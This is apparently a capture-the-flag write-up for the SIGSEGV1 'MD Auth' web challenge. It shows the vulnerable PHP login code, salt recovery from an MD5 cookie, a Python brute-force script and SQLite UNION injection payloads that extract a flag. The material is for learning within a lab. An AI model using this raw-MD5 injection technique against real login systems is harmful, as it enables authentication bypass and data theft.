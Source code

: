 ```yaml
---
layout: post
title: SIGSEGV1 Writeup - MD Auth
---
```


Let's talk about the "MD Auth" challenge, I admit I started with this challenge thinking it would be about "Markdown". 
I was wrong but it was nonetheless interesting to solve.

The source code of the index was available by requesting : [http://finale-docker.rtfm.re:4444/?source](http://finale-docker.rtfm.re:4444/?source)

{% highlight php%}
<?php
$_TITLE = 'MD Auth';
$_LONGTITLE = 'MD Auth';
$con = new SQLite3('mdauth.db');

require 'config.php'; # 7-digit APP_SALT, MAX_ERRORS and check_errors()
if(isset($_POST['login'], $_POST['password'])) {
    $errors = isset($_COOKIE['signed_errors']) ? check_errors($_COOKIE['signed_errors']) : 0;
    if($errors >= MAX_ERRORS) {
        presult('You have been banned for reaching '.MAX_ERRORS.' errors');
    } else {
        $login = $con->escapeString($_POST['login']);
        $hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
        $query = $con->query("SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'");
        if(!$query) $row=FALSE; 
        else $row = $query->fetchArray();

        if($row !== FALSE&& $query->fetchArray() === FALSE) {
            presult("Welcome back {$row['login']}!");
        } else {
            presult('Wrong username/password combination!');
            setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
        }
    }
{% endhighlight %}

At first I tried to access the database with my browser by requesting [finale-docker.rtfm.re:4444/mdauth.db](finale-docker.rtfm.re:4444/mdauth.db), unfortunately that didn't work. Let's dig deeper into the source code. We want to authenticate on the Web Application, maybe we can do an SQL injection inside the following query.

{% highlight sql%}
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
{% endhighlight %}

In order to exploit this, we need to bypass the `escapeString` function used for `$login` and `$hash`.

{% highlight php%}
<?php
$login = $con->escapeString($_POST['login']);
$hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
?>
{% endhighlight %}

The `md5` function is called with the second argument set to `true`, meaning we will get a binary output instead of a hexadecimal one. We might be able to get a backslash in the binary output, but we need to know the `APP_SALT` value in order to do our offline bruteforce. The author of the challenge was kind enough to provide a way to get this secret by misusing the `cookie`.

{% highlight php%}
<?php
setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
?>
{% endhighlight %}

We can do a single failed attempt in order to get a cookie containing the md5(SALT+"1"), based on the comment in the code we know the SALT is between 0000000-9999999 (7-digit APP_SALT). 

I got `MD5:4322dfb1e9b20645594e9f3f6998845a` which correspond to the following `PLAIN:86203711`. We now have our APP_SALT value : 8620371. The following script will bruteforce the first 1000 numbers looking for a quote in the last char of the MD5 output.

{% highlight python%}
import requests
import hashlib

# md5 true : http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes
def computeMD5hash(my_string):
    m = hashlib.md5()
    m.update(my_string.encode('utf-8'))
    return m.digest()

# Use the salt to find a string ending by "\"
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "\\" == md5[-1]:
        print(salt+str(i), i,  md5)
{% endhighlight %}

In my first attempt, I was looking for a backslash "\" in order to escape the single quote "'" from the query and use the login to complete the SQL injection.

{% highlight sql%}
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
SELECT login FROM users WHERE hash='GARBAGE\' and login=' OR 1=1--' 
{% endhighlight %}

It would have worked in a MySQL database, unfortunately we were in front of a SQLite one. The documentation and stackoverflow provided the useful information, escaping is done by doubling the quote.

{% highlight sql%}
INSERT INTO table_name (field1, field2) VALUES (123, 'Hello there''s');
{% endhighlight %}

I adjusted the script to check for a single quote and got the number `45`.

{% highlight python%}
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "'" == md5[-1]:
        print(salt+str(i), i,  md5)
{% endhighlight %}

Now it's just a simple SQL injection, by using the following credential i was able to extract interesting data.

{% highlight sql%}
login = "union all select hash from users limit 1--"
password = "45"

The query looked like "SELECT login FROM users WHERE hash='GARBAGE'' and login=' union all select hash from users limit 1--'"
with hash='GARBAGE'' and login='
{% endhighlight %}

I got the following users : `admin` and `flaggy`. Next step was to extract the flag from the database, it was located in the flag_field of the users.

{% highlight bash%}
union all select flag_field from users limit 2,1--
Welcome back sigsegv{82e9f4a155b9b740b4ff37624429b031}!
{% endhighlight %}